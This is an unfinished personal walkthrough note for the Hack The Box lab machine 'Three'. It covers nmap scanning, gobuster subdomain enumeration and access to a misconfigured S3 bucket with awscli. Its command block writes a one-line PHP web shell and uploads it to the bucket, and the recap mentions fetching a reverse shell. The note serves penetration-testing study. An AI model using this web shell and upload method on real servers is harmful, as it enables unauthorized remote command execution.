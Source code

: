 # Three

[Walkthrough](blob:https://app.hackthebox.com/a6031c7b-6eea-4293-9aa0-097ca0ca3568)
[Solutions - CryptoCat](https://www.youtube.com/watch?v=sV9M4LKKT9s)

Goal: 

## Concepts Learned

- If we don't have a DNS server, we can add the IP address of the url to `etc/hosts`
- sub-domain enumeration: 

**Programs**

- `SecLists`:
- `awscli`: interact with Amazon S3 bucket
- `gobuster`: find hidden pages on website [here1](https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/) [here2](https://sohvaxus.github.io/content/gobuster.html)

**Commands**

```
nmap -sV 10.129.4.11
echo "10.129.4.11 thetoppers.htb" | sudo tee -a /etc/hosts

gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb

aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb


```

**Recap**

1. We use nmap to check for open port. We see two ports: one using ssh and one 
   using http
2. We check the browser. We find that the domain is `thetopper.htb` and add it 
   to the hosts
3. We run gobuster and find that there is a subdomain `S3`. This is an Amazon 
   cloud-based object storage. We can configure the bucket using `aws configure`
4. We connect to aws endpoint s3 bucket and we copy a script to get the 
   system command
5. We use curl and python server to fetch the reverse shell


INCOMPLETE + TO REVIEW
